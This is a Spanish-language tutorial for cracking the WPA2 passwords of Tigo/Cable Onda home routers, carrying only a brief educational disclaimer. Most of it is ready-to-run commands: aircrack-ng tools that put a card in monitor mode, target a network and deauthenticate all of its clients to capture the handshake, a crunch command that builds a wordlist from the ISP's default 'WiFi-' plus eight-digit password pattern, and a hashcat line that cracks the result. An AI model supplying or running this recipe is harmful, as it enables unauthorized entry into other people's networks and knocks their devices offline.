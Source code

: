 # HACKING REDES TIGO

DISCLAIMER

Esta informacion no busca promover los ataques a redes que no sean de tu propiedad lo que se busca es tomarlo del punto educacional, que les ayude un poco a comprender como es un ataque de wireless y que nos ayude a protegernos.

# Procedimiento

[![Alt text](https://img.youtube.com/vi/uczbN0nxKfI/0.jpg)](https://www.youtube.com/watch?v=uczbN0nxKfI)

Para este ataque utilizaremos la tecnica de captura de handshake y este archivo lo pasaremos al hashcat para poder desencriptar el hash a traves de un diccionario que crearemos con CRUNCH. 

Utilizaremos tres aplicaciones para poder obtener el password [Aircrack-ng](http://aircrack-ng.org/)/[Hashcat](http://hashcat.net/). Crunch https://github.com/jim3ma/crunch

## Comencemos

Para este tutorial necesitaremos cualquiera de estas distribuciones de linux:

-Kali Linux https://www.kali.org/)
-Parrot OS https://www.parrotsec.org/
-Wifislax https://www.wifislax.com/

# Hardware
	
- Necesitaremos una interfaz de red que sea compatible con [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode)
- Pueden entrar a ese link y verificar que tarjetas de red son compatibles
- (http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

### Monitor Mode

Lo primero que tenemos que hacer es colocar nuestra interfaz de red en modo monitor:

```bash
airmon-ng start "NUESTRA INTERFAZ"
```

Normalmente siempre lleva el nombre de `wlan0` pero para verificar cual es nombre solo escribe en una terminal `iwconfig`:

### Ahora nos ponemos en modo escucha

```bash
airodump-ng wlan0
```

- Veran algo similar como esto

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  WPA2             COWIFI241135420/9                                                 
```

- De esta ventana hay que anotar el bssid `14:91:82:F7:52:EB` y el canal `1`

### Poner en modo escucha el airodump

- Para esto solo tendremos que especificarle al airodump-ng en que red quiero que se enfoque y el nombre del archivo que quiero guardar toda esta informacion. con `-c` especificamos el canal `--bssid` insertamos el bssid y con `-w` nombramos el el archivo donde queremos que se almacene el handshake y por ultimo le especificamos nuestra interfaz de red.

```
airodump-ng -c 'CANAL' --bssid 'bssid' -w 'nombre del archivo' wlan0mon

```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
14:91:82:F7:52:EB  -47   0      140        0    0   1  54e  WPA2 CCMP   PSK  COWIFI241135420/9  
```
-Ahora en otra terminal paralela a esta escribimos el siguente codigo
```
aireplay-ng --deauth 0 -a 'bssid' wlan0mon

```
-esto lo que hara es desautenticar a todos los disposivos y cuando se intente conectar capturaremos el handshake


-No pueden cerrar esta terminal hasta que en la parte superior derecha apareza este mensaje `[ WPA handshake: 14:91:82:F7:52:EB`.

- Luego cuando tengan este archivo '.cap' lo pasaremos a nuestro windows y entraremos a este link https://hashcat.net/cap2hashcat/ y comvertimos nuestro archivo .cap a .22000 que es el formato que lee hashcat.

# Creacion de diccionario

-Las redes tigo o cable onda tienen un particularidad y es que todas comienza con "WiFi-(y una serie de 8 numeros)" Con crunch podemos crear un diccionario especial para esto solo necesitaremos copiar estos comandos
```
crunch 13 13 -t WiFi-%%%%%%%% -o DiccionarioTIGO.txt

```

### Crack the Network Password

-Ahora en nuestro windows abriremos la consola y nos pocisionaremos donde tengamos descargado el hashcat luego cuando estemos adentro escribimos este codigo
```
hashcat -a 0 -m 22000 Nombre_del_hash.22000 diccionariotigo.txt --show

```

# LISTO

              
